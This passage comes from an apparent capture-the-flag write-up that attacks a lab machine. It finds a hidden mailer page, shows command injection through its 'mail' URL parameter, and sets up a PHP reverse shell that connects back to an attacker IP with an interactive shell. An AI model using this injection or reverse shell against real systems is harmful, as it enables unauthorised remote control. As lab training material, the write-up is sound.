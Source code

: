 END_TIME: Sat Jul 15 08:37:24 2017
DOWNLOADED: 20458 - FOUND: 6

{% endhighlight %}

<p>We can now manually go through these pages to look for anything interesting. There's nothing in the contact...</p>

{% highlight bash %}
http://192.168.56.101:60080/index.php?page=contact

Contact me with all your whining at wallaby@wallaby.wallaby.
{% endhighlight %}

<p>But mailer, mailer is interesting. </p>

{% highlight html %}

http://192.168.56.101:60080/index.php?page=mailer

<h2 style='color:blue;'>Coming Soon guys!</h2>
    <!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
    <!--Better finish implementing this so bobby can send me all his loser complaints!-->

{% endhighlight %}

<p>And by trial and error, I've found that it's even vulnerable to command injection. Let's check that! </p>

{% highlight html %}
http://192.168.56.101:60080/?page=mailer&mail=uname%20-a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
{% endhighlight %}

<p>Our plan is to upload a <b>PHP Reverse Shell</b> to the machine. Firstly, let's copy it, so then we can modify the code. </p>  

{% highlight bash %}
root@kali:~/web# cp /usr/share/webshells/php/php-reverse-shell.php ~/web
{% endhighlight %}

{% highlight php %}
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.102';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
?>
{% endhighlight %}
